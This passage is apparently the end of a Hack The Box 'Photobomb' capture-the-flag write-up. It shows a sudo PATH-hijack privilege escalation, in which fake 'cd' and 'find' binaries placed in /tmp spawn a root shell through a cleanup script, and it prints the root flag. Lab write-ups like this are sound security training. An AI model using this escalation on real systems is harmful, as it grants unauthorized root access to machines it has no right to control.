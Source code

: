 ```bash
chown: changing ownership of 'source_images/mark-mc-neill-4xWHIpY2QcY-unsplash.JPG': Operation not permitted
chown: changing ownership of 'source_images/wolfgang-hasselmann-RLEgmd1O7gs-unsplash.JPG': Operation not permitted
```

Let's see what that script do:
```bash
wizard@photobomb:/opt$ cat cleanup.sh
cat cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.JPG' -exec chown root:root {} \;
```

The script is copying the content of the **photobomb.log** and put in inside **photobomb.log.old**.

and then truncate the content from it.

So, We will add `/bin/bash` in cd file and give read, write, execute permission.

And then we run the file with `sudo` and set the `PATH` to `/tmp`.

```bash
wizard@photobomb:/$ echo "/bin/bash" > /tmp/cd
echo "/bin/bash" > /tmp/cd
wizard@photobomb:/$ chmod 777 /tmp/cd
chmod 777 /tmp/cd
wizard@photobomb:/$ echo "/bin/bash" > /tmp/find
echo "/bin/bash" > /tmp/find
wizard@photobomb:/$ chmod 777 /tmp/find
chmod 777 /tmp/find
wizard@photobomb:/$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# cd /root
cd /root
root@photobomb:~# ls
ls
root.txt
root@photobomb:~# cat root.txt
cat root.txt
c40917692c858d54a00d622d840e56c9f4c255ad
```

_Pwned_

![rooted](post/Photobomb_HTB/imgs/rooted.JPG)

